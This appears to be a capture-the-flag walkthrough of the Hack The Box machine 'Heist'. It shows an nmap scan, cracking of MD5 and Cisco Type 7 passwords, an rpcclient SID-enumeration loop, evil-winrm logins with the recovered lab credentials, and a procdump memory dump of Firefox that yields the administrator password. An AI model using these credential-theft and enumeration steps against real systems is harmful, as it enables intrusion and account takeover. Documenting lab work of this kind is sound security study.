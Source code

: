 # Heist Walkthrough

Date: 2024/08/211.

## Ports Enumeration

I began with a full port scan to identify open services on the target machine:

```bash
nmap -Pn -p 80,135,445,5985,49669 -A -v -oN scan.txt -oX scan.xml <target>
```

The scan revealed the following open ports and services:

```
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49669/tcp open  msrpc         Microsoft Windows RPC
```

The target is likely running Microsoft Windows Server 2019 based on the OS fingerprint.2.

## Port 80 (HTTP) Enumeration

Navigating to the web server on port 80 presented a login page. The page allowed login either as an authenticated user or as a guest.

### Guest Login:

Logging in as a guest provided some valuable information:

Users:
* `admin`
* `rout3r`
* `hazard`

Configuration File:

* Located at http://heist.htb/attachments/config.txt, which contained encrypted passwords.

### Decrypting Passwords

The configuration file provided three encrypted passwords:

* `$1$pdQG$o8nrSzsGXeaduXrjlvKc91` (MD5 hash)
* `0242114B0E143F015F5D1E161713` (Cisco Type 7)
* `02375012182C1A1D751618034F36415408` (Cisco Type 7)

### MD5 Hash:

The first password is encrypted using MD5 (indicated by the $1$ prefix). I decrypted it using hashcat:

```bash
hashcat -m 500 <password_file> /usr/share/wordlists/rockyou.txt
```

### Cisco Type 7:

The other two passwords were Cisco Type 7 encrypted, which I decrypted using an online tool: [Cisco Password Cracker](https://www.ifm.net.nz/cookbooks/passwordcracker.html).

Decrypted passwords:

* `stealth1agent`
* `$uperP@ssword`
* `Q4)sJu\Y8qz*A3?d`

## Initial Access via RPC

Using the `hazard` credentials, I gained access via the RPC protocol with `rpcclient`:

```bash
rpcclient -U "hazard" --password="stealth1agent" <target>
```

## User Enumeration:

To enumerate users, I used a script found at [Hack tricks - rpcclient enumeration](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb/rpcclient-enumeration), that cycles through possible SIDs:

```bash
for i in {0..1050}; do 
  rpcclient -U "hazard%stealth1agent" <target> -c "lookupsids S-1-5-21-4254423774-1266059056-3197185112-$i"
done
```

This revealed several new users, including:

* SUPPORTDESK\Administrator
* SUPPORTDESK\Chase

## Gaining User Access via WinRM

With the `Chase` credentialsn, I connected to the target using WinRM:

```bash
evil-winrm -i <target> -u chase -p "Q4)sJu\Y8qz*A3?d"
```

I successfully obtained the user flag from the Chase account.

## Privilege Escalation to Administrator

### Enumeration

On the desktop, I found a `todo.txt` file with minimal hints. I used `winPEAS` for automated enumeration but found nothing conclusive. However, I noticed active Firefox processes and decided to dump their memory:

```powershell
Get-Process | Where-Object { $_.ProcessName -eq "firefox" }
```

### Dumping Firefox Memory

Using [procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump), I dumped the Firefox process:

```powershell
.\procdump.exe 6696 -accepteula
```

Within the dump files, I discovered the administrator password: `4dD\!5}x/re8]FBuZ`.

## Accessing the Administrator Account

Finally, I logged in as Administrator using the discovered credentials and obtained the root flag:

```bash
evil-winrm -i <target> -u administrator -p "4dD\!5}x/re8]FBuZ"
```

## Summary

This box required careful enumeration and persistence. The initial access was challenging but rewarding as I gained further insight into Windows enumeration techniques. The privilege escalation, particularly through process memory dumping, provided a valuable learning experience.

### Key Takeaways:

* Web enumeration and password decryption
* RPC enumeration techniques
* Utilizing WinRM for remote access
* Process dumping and analysis for privilege escalation